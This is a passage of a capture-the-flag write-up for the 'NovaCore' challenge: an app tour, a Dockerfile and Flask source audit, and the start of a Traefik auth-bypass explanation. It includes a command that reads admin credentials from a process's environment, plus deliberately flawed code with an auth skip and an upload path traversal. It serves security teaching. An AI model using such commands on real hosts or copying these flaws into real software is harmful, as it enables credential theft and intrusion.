<font size="10">NovaCore</font>

10<sup>th</sup> November 2024

​Prepared By: Lean

​Challenge Author(s): Lean & 0x3dee

​Difficulty: <font color=red>Insane</font>

​Classification: Official

# [Synopsis](#synopsis)

- Traefik API authentication bypass via CVE-2024-45410 => memory overflow on custom keystore implementation => cache poisoning => dom clobbering => client side path traversal => prototype pollution => unsafe eval call => CSP bypass => cookie exfiltration via undocumented feature => unrestricted file upload via path traversal => RCE via TAR/ELF polyglot file

## Description

* NovaCore is a newly formed capital fund focusing on delivering a platform for institutional stock trading using bleeding edge AI models. Our OSINT investigations have linked the team behind NovaCore to multiple fraud and insider-trading allegations. It is suspected that NovaCore holds more shady motives that the ones that initially appear, if their tech is up to par it could be used to manipulate the stock market. Your task is to break into their server they use to beta-test their platform in order to uncover more info related to this conspiracy.

## Skills Required

- Understanding of Python and Flask.
- Vulnerability researching skills. 
- Understanding of C and basic memory management.
- Understanding of Javascript and CSP directives.
- Understanding of the TAR format.
- Understanding of the ELF format.
- Basic understanding of Assembly.

## Skills Learned

- Researching and using known CVE's.
- Bypassing reverse-proxy restrictions.
- Abusing low-level bugs in a web exploitation context.
- Causing cache poisoning.
- Bypassing strict CSP rules by abusing server features.
- Escalating DOM clobbering to client-side path traversal.
- Finding custom prototype pollution gadgets.
- Exfiltrating data by abusing server features.
- Abusing unrestricted file uploads via path traversal.
- Creating a TAR/ELF polyglot payload with custom shellcode.

## Application Overview


Visiting the challenge's page we are greeted by a landing page of "NovaCore", we see a navbar linking to more pages and a panel showcasing "live" trades made by their AI.


Visiting the "User Dashboard" page prompts us with a login panel asking for an email a password, we don't have any credentials at the moment so we will keep looking around.


The "Get an Account" page explains the process of obtaining an account on the platform. It appears that we would need to contact staff from the company in order to get one...


<hr>


Then we have an "About us" and a "Privacy policy" page that contain relevant info to their titles but nothing of use to us.


Then there is also a "For Developers" page explaining some API features, and also there is a button directing us to `/api`.


Visiting there we get a confirmation that the API is up and running.

Now we can enter the container in a local running instance in order to check out the features available to logged-in users.

```bash
docker exec -it web_nova_core bash
root@c6f910b1e851:/#
```

Now we need to find the admin credentials, as we will see on the code audit, we will find out that they are stored on the env variables of the web app's process.

```bash
root@c6f910b1e851:/# ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   4116   484 pts/0    Ss+  Dec06   0:00 /bin/bash /entrypoint.sh
root          21  0.0  0.0  28104  3028 pts/0    S+   Dec06   0:00 /usr/bin/python3 /usr/bin/supervisord -c /etc/sup
root          23  0.0  0.0 830880  1836 pts/0    Sl   Dec06   0:00 /cache/aetherCache 6379
root          24  0.0  0.3 628632 57764 pts/0    Sl   Dec06   0:19 python3 /app/run.py
root          25  0.0  0.2 850128 39756 pts/0    Sl   Dec06   0:01 /usr/local/bin/traefik --configFile=/etc/traefik/
root          53  0.0  0.0   4244  1744 pts/1    Ss   Dec06   0:00 bash
root        8953  0.2  0.0 33627960 15216 pts/0  Sl   05:59   0:00 /usr/local/bin/chromedriver-linux64/chromedriver 
root        8959  0.6  0.0      0     0 pts/0    Z    05:59   0:00 [chrome] <defunct>
root        9061  0.0  0.0   5900  2548 pts/1    R+   05:59   0:00 ps aux
```

We run a `ps aux` to get all processes and we see that the a python process is started with id of `24`.

```bash
root@c6f910b1e851:/# cat /proc/24/environ 
HOSTNAME=c6f910b1e851ADMIN_PASS=fc9e62695def29ccdb9eb3fed5b4c8c8PWD=/ADMIN_EMAIL=57db7d68d5335b52d5153a4e01adaa6b@novacore.htbHOME=/rootTERM=xtermSHLVL=1PYTHONDONTWRITEBYTECODE=1PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binDEBIAN_FRONTEND=noninteractive_=/usr/bin/supervisordLC_CTYPE=C.UTF-8SUPERVISOR_ENABLED=1SUPERVISOR_PROCES
```

Using that pid we can get the env variables of that process which contain `ADMIN_EMAIL` and `ADMIN_PASS`.



The main page of the dashboard shows the account's balance and PnL.


Then we have the live signals page which contains trade signals created by the NovaCore AI which we can copy-trade.



Next up we have the "My Trades" page which has trades open the user has copied (i copied the AMZN trade from the previous page as an example).



Then we have the "Plugins" page which has a lists of financial plugins that can be executed.



And last but not least we have the "Datasets" page which lists uploaded datasets the AI uses and the user has the functionality to upload new ones in the form of TAR files.

To sum things up before moving to the source code auditing, we have an AI stock trading platform where there are features locked behind a login procedure and there is also an API we can explore.

## Source code audit

Let's start by the heart of challenges, the `Dockerfile`.

```Dockerfile
# Use the official Ubuntu base image
FROM ubuntu:20.04

# Set non-interactive frontend for automated installs
ENV DEBIAN_FRONTEND=noninteractive

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# Copy flag
COPY flag.txt /flag.txt
```

Some self explanatory commands are executed initially. The `ubuntu:20.04` base image is used, `DEBIAN_FRONTEND` and `PYTHONDONTWRITEBYTECODE` are set and then the flag file is copied to the root directory.

```Dockerfile
# Install Traefik, Python, Supervisor, and other dependencies
RUN apt-get update && \
    apt-get install -y python3 python3-pip supervisor gcc curl unzip exiftool && \
    curl -sSL https://github.com/traefik/traefik/releases/download/v2.10.4/traefik_v2.10.4_linux_amd64.tar.gz | tar -xz -C /usr/local/bin && \
    chmod +x /usr/local/bin/traefik && \
    curl -sSL https://storage.googleapis.com/chrome-for-testing-public/125.0.6422.141/linux64/chromedriver-linux64.zip -o chromedriver-linux64.zip && \
    unzip chromedriver-linux64.zip -d /usr/local/bin && \
    chmod +x /usr/local/bin/chromedriver-linux64/chromedriver && \
    curl https://dl.google.com/linux/chrome/deb/pool/main/g/google-chrome-stable/google-chrome-stable_125.0.6422.141-1_amd64.deb -o google-chrome-stable_125.0.6422.141-1_amd64.deb && \
    apt-get install -y ./google-chrome-stable_125.0.6422.141-1_amd64.deb
```

Then some packages are installed using `apt-get`, after that `Traefik` is downloaded and installed followed by `chromedriver` and `chrome`.

```Dockerfile
# Setup app
RUN mkdir -p /app

# Switch working environment
WORKDIR /app

# Add application
COPY challenge/src .

# Install dependencies
RUN pip install -r requirements.txt
```

The working directory of the application is set up, source files are copied there and then the `Python` dependencies are installed.

```Dockerfile
# Copy custom Traefik configuration files
COPY challenge/conf/traefik.yml /etc/traefik/traefik.yml
COPY challenge/conf/dynamic_config.yml /etc/traefik/dynamic_config.yml

# Switch working environment
WORKDIR /
```

The config files for `Traefik` are copied to the required directory and the working directory is reverted back to `/` root.

Let's go and have a look to the configurations for `Traefik` before moving on. Starting by `config/traefik.yml`.

```yml
# Entry points configuration
entryPoints:
  web:
    address: ":1337"

# Set up a file-based dynamic configuration provider
providers:
  file:
    filename: "/etc/traefik/dynamic_config.yml"
```

Here we define the entrypoint port `1337` for the front-facing side of `Traefik` and then we define the provider config, which source we can view at `config/dynamic_config.yml`.

```yml
# dynamic_config.yml

http:
  routers:
    my-app-router:
      rule: "PathPrefix(`/`)"
      entryPoints:
        - web
      service: my-app-service

  services:
    my-app-service:
      loadBalancer:
        servers:
          - url: "http://127.0.0.1:5000"
```

This seems to be a simple reverse-proxy/load-balancer configutation forwarding requests from port `1337` to the backend at port `5000`.

Moving back to the `Dockerfile`...

```Dockerfile
# Copy plugin files
COPY --chown=root challenge/plugins /app/application/plugins
RUN chmod +x /app/application/plugins/compile.sh
RUN /app/application/plugins/compile.sh
```

Some plugin `C` files are moved to the `/app/application/plugins/` and are compiled using `compile.sh`.

```Dockerfile
# Create cache directory
RUN mkdir -p /cache

# Copy cache files
COPY --chown=root challenge/cache/compile.sh /cache/compile.sh
RUN chmod +x /cache/compile.sh
COPY challenge/cache/aetherCache.c /cache/aetherCache.c 
RUN /cache/compile.sh
```

A directory is created at `/cache` and some files are copied there. The files include a `C` program called `AetherCache` and a `sh` script that is used to compile it.

```Dockerfile
# Setup supervisor
COPY challenge/conf/supervisord.conf /etc/supervisord.conf

# Expose the HTTP port
EXPOSE 1337

# Copy entrypoint and make it executable
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

# Run the entrypoint script
ENTRYPOINT ["/entrypoint.sh"]
```

Then a config for supervisor is set up, port 1337 is exposed and the entrypoint script is set up and started.

```sh
#!/bin/bash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Random password function
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}

# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt

# Set environment variables
export ADMIN_EMAIL="$(genPass)@novacore.htb"
export ADMIN_PASS="$(genPass)"

# Launch supervisord
/usr/bin/supervisord -c /etc/supervisord.conf
```

On the entrypoint the flag name at root is randomized, a random admin email and password are set and also the supervisor is started.

```conf
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:flask]
command=python3 /app/run.py
user=root
autorestart=true
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:traefik]
command=/usr/local/bin/traefik --configFile=/etc/traefik/traefik.yml
user=root
autostart=true
autorestart=true
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0

[program:cache]
command=/cache/aetherCache 6379
user=root
autostart=true
autorestart=true
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
```

Looking at `conf/supervisord.conf` we see all the services running on the container, we have the main flask application, then we have traefik and last but not least we have the AetherCache binary.

```py
import time, schedule, threading

from application.app import app
from application.util.database import Database
from application.util.cache import AetherCacheClient
from application.util.bot import bot_runner

def run_flask_app():
    app.run(host="0.0.0.0", port=5000, threaded=True, debug=False)


if __name__ == "__main__":
    db_session = Database()
    db_session.migrate(app.config["ADMIN_EMAIL"], app.config["ADMIN_PASS"])

    cache_session = AetherCacheClient()
    cache_session.migrate()

    schedule.every(1).minutes.do(bot_runner, app.config)

    flask_thread = threading.Thread(target=run_flask_app)
    flask_thread.start()

    while True:
        schedule.run_pending()
        time.sleep(1)
```

At `src/run.py` initializes and runs a Flask web application while scheduling a periodic task. It performs database and cache migrations using configurations from app.config, then sets up a scheduler to execute the bot_runner function every minute. The Flask app runs on a separate thread, allowing the main thread to continuously check and execute any pending scheduled tasks.

Now let's view the juicy parts at `src/application/blueprints/api.py`.

```py
@api.route("/", methods=["GET", "POST"])
def index():
	return "API OK"
```

The root endpoint `/` returns "API OK" to confirm the API is operational.

```py
@api.route("/active_signals", methods=["GET"])
@token_required
def active_signals():
	cache_session = AetherCacheClient()
	signal_keys = cache_session.list_keys()

	signals = []
	for key in signal_keys:
		if key.startswith("signal:"):
			value = cache_session.get(key)
			if value:
				signals.append({
					"key": key.split(":")[1],
					"data": parse_signal_data(value)
				})

	return jsonify({"signals": signals})
```

The `/active_signals` endpoint retrieves active signals from the cache for authenticated users who provide a valid API token, returning a list of signals.

```py
@api.route("/copy_signal_trade", methods=["POST"])
@token_required
def copy_signal_trade():
	if not request.json:
		return jsonify({"error": "No JSON data provided"}), 400

	cache_session = AetherCacheClient()

	user_id = g.user.id if g.get("user") else "sys_admin"

	data = request.json
	signal_id = data.get("signal_id")

	if not signal_id:
		return jsonify({"error": "Signal ID is required"}), 400

	signal_data = cache_session.get(f"signal:{signal_id}")
	if not signal_data:
		return jsonify({"error": "Signal not found"}), 404

	trade_id = str(uuid.uuid4())
	trade_data = signal_data
	cache_session.set(f"user:{user_id}:trade:{trade_id}", trade_data)

	return jsonify({"message": "Trade copied successfully", "trade_id": trade_id})
```

The `/copy_signal_trade` endpoint allows an authenticated user to copy a specific signal into their personal trades by providing a "signal_id" in a JSON payload, creating a new trade entry with a unique "trade_id".

```py
@api.route("/trades", methods=["GET"])
@token_required
def trades():
	cache_session = AetherCacheClient()

	user_id = g.user.id if g.get("user") else "sys_admin"

	trade_keys = cache_session.list_keys()

	trades = []
	for key in trade_keys:
		if key.startswith(f"user:{user_id}:trade:"):
			value = cache_session.get(key)
			if value:
				trades.append({
					"key": key.split(":")[-1],
					"data": parse_signal_data(value)
				})

	return jsonify({"trades": trades})
```

The `/trades` endpoint fetches all trades associated with the authenticated user from the cache, requiring a valid API token for authentication.

```py
@api.route("/edit_trade", methods=["POST"])
@token_required
def edit_trade():
	if not request.json:
		return jsonify({"error": "No JSON data provided"}), 400

	data = request.json
	trade_id = data.get("trade_id")
	symbol = data.get("symbol")
	action = data.get("action")
	price = data.get("price")

	if not trade_id:
		return jsonify({"error": "Trade ID is required"}), 400

	if not (symbol or action or price):
		return jsonify({"error": "At least one of symbol, action, or price must be provided"}), 400

	cache_session = AetherCacheClient()
	user_id = g.user.id if g.get("user") else "sys_admin"

	trade_key = f"user:{user_id}:trade:{trade_id}"
	trade_data = cache_session.get(trade_key)

	if not trade_data:
		return jsonify({"error": "Trade not found"}), 404

	parsed_trade_data = parse_signal_data(trade_data)

	if symbol:
		parsed_trade_data["symbol"] = symbol
	if action:
		parsed_trade_data["action"] = action
	if price:
		parsed_trade_data["price"] = price

	updated_trade_data = format_signal_data(
		parsed_trade_data["symbol"],
		parsed_trade_data["action"],
		parsed_trade_data["price"]
	)
	cache_session.set(trade_key, updated_trade_data)
```

The `/edit_trade` endpoint enables an authenticated user to edit an existing trade's details by providing a "trade_id" and updating fields like "symbol", "action", or "price" in a JSON payload, updating the specified trade in the cache with the new data.

```py
def token_required(f):
	@wraps(f)
	def decorated_function(*args, **kwargs):
		client_ip = request.headers.get("X-Real-IP")

		if not client_ip:
			return f(*args, **kwargs)

		token = request.headers.get("Authorization")
		if not token:
			return jsonify({"error": "API token is missing"}), 401

		db_session = Database()
		valid, user = db_session.validate_token(token)
		if not valid:
			return jsonify({"error": "Invalid API token"}), 401

		g.user = user
		return f(*args, **kwargs)
	return decorated_function
```

The middleware in the code is the token_required decorator, which enforces authentication on certain API endpoints by requiring a valid API token. It checks for the token in the request headers or query parameters, validates it against the database, and attaches the authenticated user to the global g object if valid. If the token is missing or invalid, it returns a 401 Unauthorized error; otherwise, it allows the request to proceed to the endpoint function.

Now lets see the web endpoints at `src/application/blueprints/web.py`.

```py
def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if not session.get("loggedin"):
            return redirect("/login")
        return f(*args, **kwargs)
    return decorated_function
```

The `login_required` decorator ensures that a user is logged in before accessing certain routes. If the user is not logged in (i.e., `session.get("loggedin")` is False), it redirects them to the `/login` page.

```py
@web.route("/", methods=["GET"])
def index():
    return render_template("index.html", nav_enabled=True, title="Home")
```

Renders the `index.html` template, serving as the home page of the application.

```py
@web.route("/get-an-account", methods=["GET"])
def get_an_account():
    return render_template("get-an-account.html", nav_enabled=True, title="Get An Account")
```

Renders the `get-an-account.html` template, providing information on how users can get an account.

```py
@web.route("/about-us", methods=["GET"])
def about_us():
    return render_template("about-us.html", nav_enabled=True, title="About Us")
```

Renders the `about-us.html` template, displaying information about the organization or application.

```py
@web.route("/privacy-policy", methods=["GET"])
def privacy_policy():
    return render_template("privacy-policy.html", nav_enabled=True, title="Privacy Policy")
```

Renders the `privacy-policy.html` template, showing the application's privacy policy.

```py
@web.route("/for-developers", methods=["GET"])
def for_developers():
    return render_template("for-developers.html", nav_enabled=True, title="For Developers")
```

Renders the `for-developers.html` template, providing resources or information for developers.

```py
@web.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template("login.html", nav_enabled=False, title="Login")

    email = request.form.get("email")
    password = request.form.get("password")

    if not email or not password:
        return render_template(
            "error.html",
            title="Error",
            type="Authorization",
            message="Email and password is required",
            nav_enabled=False,
        ), 403

    db_session = Database()
    user_valid, user = db_session.check_user(email, password)

    if not user_valid:
        return render_template(
            "error.html",
            title="Error",
            type="Authorization",
            message="Invalid email or password",
            nav_enabled=False,
        ), 403

    session["loggedin"] = True
    session["email"] = user.email
    session["api_token"] = user.api_token

    return redirect("/dashboard")
```

Handles user authentication. On GET, it renders the login page. On POST, it processes the login form, validates user credentials against the database, and sets session variables if authentication is successful.

```py
@web.route("/logout", methods=["GET"])
@login_required
def logout():
    session.clear()
    return redirect("/")
```

Logs the user out by clearing the session and redirects them to the home page.

```py
@web.route("/dashboard", methods=["GET"])
@login_required
def dashboard():
    return render_template("dashboard.html", title="Dashboard", session_data=session)
```

Renders the `dashboard.html` template for logged-in users, displaying user-specific information.

```py
@web.route("/live_signals", methods=["GET"])
@login_required
def live_signals():
    signal_data = fetch_cache("active_signals", session["api_token"])
    if "error" in signal_data:
        signal_data = None
    else:
        signal_data = signal_data["signals"]

    return render_template("live_signals.html", title="Live Signals", session_data=session, signals=signal_data)
```

Displays live trading signals fetched from the cache. Requires the user to be logged in.

```py
@web.route("/copy_trade", methods=["POST"])
@login_required
def copy_trade():
    signal_id = request.form.get("signal_id")
    if not signal_id:
        return render_template(
            "error.html",
            title="Error",
            type="Input",
            message="Signal ID is required",
            nav_enabled=False,
        ), 403

    copy_trade_cache(signal_id, session["api_token"])
    return redirect("/my_trades")
```

Allows a user to copy a trading signal into their personal trades. It requires a `signal_id` from the form data.

```py
@web.route("/my_trades", methods=["GET"])
@login_required
def my_trades():
    trade_data = fetch_cache("trades", session["api_token"])
    if "error" in trade_data:
        trade_data = None
    else:
        trade_data = trade_data["trades"]

    return render_template("my_trades.html", title="Live Signals", session_data=session, trades=trade_data)
```

Displays the user's personal trades fetched from the cache.

```py
@web.route("/datasets", methods=["GET"])
@login_required
def datasets():
    dataset_files = list_files_in_directory("/app/application/datasets")
    return render_template("datasets.html", title="Datasets", session_data=session, dataset_files=dataset_files)
```

Lists available dataset files in the `/app/application/datasets` directory for the user.

```py
@web.route("/upload_dataset", methods=["POST"])
@login_required
def upload_dataset():
    if "dataset_file" not in request.files:
        return render_template(
            "error.html",
            title="Error",
            type="Input",
            message="File not found",
            nav_enabled=False,
        ), 403

    file = request.files["dataset_file"]
    if not check_dataset_filename(file.filename) and not is_tar_file(file.filename):
        return render_template(
            "error.html",
            title="Error",
            type="Input",
            message="File not valid",
            nav_enabled=False,
        ), 403

    tmp_file_path = str(uuid.uuid4()) + ".tar"
    upload_path = os.path.join("/tmp", tmp_file_path)
    file.save(upload_path)

    if not is_tar_content(upload_path):
        os.unlink(upload_path)
        return render_template(
            "error.html",
            title="Error",
            type="Input",
            message="File not valid",
            nav_enabled=False,
        ), 403

    new_upload_path = os.path.join("/app/application/datasets", file.filename)
    os.rename(upload_path, new_upload_path)

    return redirect("/datasets")
```

Allows users to upload a dataset file (must be a tar file). It validates the file and saves it to the datasets directory.

```py
@web.route("/plugins", methods=["GET"])
@login_required
def plugins():
    plugin_dir = "/app/application/plugins"
    plugin_files = list_files_in_directory(plugin_dir)

    final_files = []
    for plugin in plugin_files:
        if is_exe_file(plugin_dir + "/" + plugin):
            final_files.append(plugin)

    return render_template("plugins.html", title="Plugins", session_data=session, plugin_files=final_files)
```

Lists executable plugin files in the `/app/application/plugins` directory.

```py
@web.route("/run_plugin", methods=["POST"])
@login_required
def plugin_run():
    plugin_dir = "/app/application/plugins"

    plugin = request.form.get("plugin")
    if not plugin:
        return render_template(
            "error.html",
            title="Error",
            type="Input",
            message="Plugin is required",
            nav_enabled=False,
        ), 403

    plugin_path = plugin_dir + "/" + plugin
    if not check_plugin_filename(plugin) or not is_exe_file(plugin_path):
        return render_template(
            "error.html",
            title="Error",
            type="Input",
            message="Invalid plugin",
            nav_enabled=False,
        ), 403

    plugin_results = run_plugin(plugin_path)
    plugin_files = list_files_in_directory(plugin_dir)

    final_files = []
    for plugin in plugin_files:
        if is_exe_file(plugin_dir + "/" + plugin):
            final_files.append(plugin)

    return render_template("plugins.html", title="Plugins", session_data=session, plugin_files=final_files, plugin_results=plugin_results)
```

Allows users to run a selected plugin executable. It validates the plugin filename and executes it using `run_plugin`.

```py
@web.route("/front_end_error/<action>/<log_level>", methods=["POST"])
def log_front_end_error(action, log_level):
    error = request.json

    if action == "new":
        if not error or not log_level:
            return jsonify({"message": "Missing user input"}), 401

        FRONT_END_ERRORS[log_level] = error
        return jsonify({"message": "Error logged"}), 200

    elif action == "view":
        if log_level not in FRONT_END_ERRORS:
            return jsonify({"message": "No errors found for the specified log level"}), 404

        return jsonify(FRONT_END_ERRORS[log_level]), 200

    else:
        return jsonify({"message": "Invalid action"}), 400
```

A utility endpoint for logging and viewing front-end errors. It supports two actions: `new` to log an error, and `view` to retrieve logged errors based on `log_level`.

### Summary

We have a full stack web application used for stock trading, all services are run using `supervisor` and the consist of:

 - The main `Flask` application running on port 5000
 - A `traefik` instance proxying the local port 5000 to exposed port 1337
 - An instance of the custom `AetherCache` running on port 6379

A logged-in user can:

 - Fetchy trades predicted form the AI
 - Copy trades
 - View own trades
 - View datasets
 - Upload custom datasets
 - View plugins
 - Run plugins

## Bypassing Traefik reverse-proxy with CVE-2024-45410

Since we have no valid user, and there is no way to create one it is a good idea to assume that we need to find a way to bypass authentication, either on the api or on the web interface.

Let's have a better look at thge authentication middleware for the api.

```py
def token_required(f):
	@wraps(f)
	def decorated_function(*args, **kwargs):
		client_ip = request.headers.get("X-Real-IP")

		if not client_ip:
			return f(*args, **kwargs)

		token = request.headers.get("Authorization")
		if not token:
			return jsonify({"error": "API token is missing"}), 401

		db_session = Database()
		valid, user = db_session.validate_token(token)
		if not valid:
			return jsonify({"error": "Invalid API token"}), 401

		g.user = user
		return f(*args, **kwargs)
	return decorated_function
```

First of all we can see that if the `X-Real-IP` header is present, the check for the `Authorization` header token is completely skipped.
However after some [research](https://stackoverflow.com/a/56978671) and debugging we can find out that the `X-Real-IP` is set by default on backends accessed behind `Traefik`.
On a normal authorization case with the `Authorization` header token present the `g.user` attribute is set to the user object of which the token belongs to.

```py
@api.route("/copy_signal_trade", methods=["POST"])
@token_required
def copy_signal_trade():
	if not request.json:
		return jsonify({"error": "No JSON data provided"}), 400

	cache_session = AetherCacheClient()

	user_id = g.user.id if g.get("user") else "sys_admin"

	data = request.json
	signal_id = data.get("signal_id")

	if not signal_id:
		return jsonify({"error": "Signal ID is required"}), 400

	signal_data = cache_session.get(f"signal:{signal_id}")
	if not signal_data:
		return jsonify({"error": "Signal not found"}), 404

	trade_id = str(uuid.uuid4())
	trade_data = signal_data
	cache_session.set(f"user:{user_id}:trade:{trade_id}", trade_data)

	return jsonify({"message": "Trade copied successfully", "trade_id": trade_id})
```

As an example we see that if no user object is set (AKA if authorization is skipped) then the user id is set to `sys_admin`, this is set so a system administrator can access the api from the internal network without sending the requests through `Traefik`, however only port `1337` thatn proxies through `Treafik` is exposed on our case.

Going back to the `Dockerfile`.

```Dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Install Traefik, Python, Supervisor, and other dependencies
RUN apt-get update && \
    apt-get install -y python3 python3-pip supervisor gcc curl unzip exiftool && \
    curl -sSL https://github.com/traefik/traefik/releases/download/v2.10.4/traefik_v2.10.4_linux_amd64.tar.gz | tar -xz -C /usr/local/bin && \
    chmod +x /usr/local/bin/traefik && \
    curl -sSL https://storage.googleapis.com/chrome-for-testing-public/125.0.6422.141/linux64/chromedriver-linux64.zip -o chromedriver-linux64.zip && \
    unzip chromedriver-linux64.zip -d /usr/local/bin && \
    chmod +x /usr/local/bin/chromedriver-linux64/chromedriver && \
    curl https://dl.google.com/linux/chrome/deb/pool/main/g/google-chrome-stable/google-chrome-stable_125.0.6422.141-1_amd64.deb -o google-chrome-stable_125.0.6422.141-1_amd64.deb && \
    apt-get install -y ./google-chrome-stable_125.0.6422.141-1_amd64.deb
```

We see that version `2.10.4` of `Traefik` is used. After some digging around we can find a public vulnerability [CVE-2024-45410](https://github.com/traefik/traefik/security/advisories/GHSA-62c8-mh53-4cqv) has been discovered.

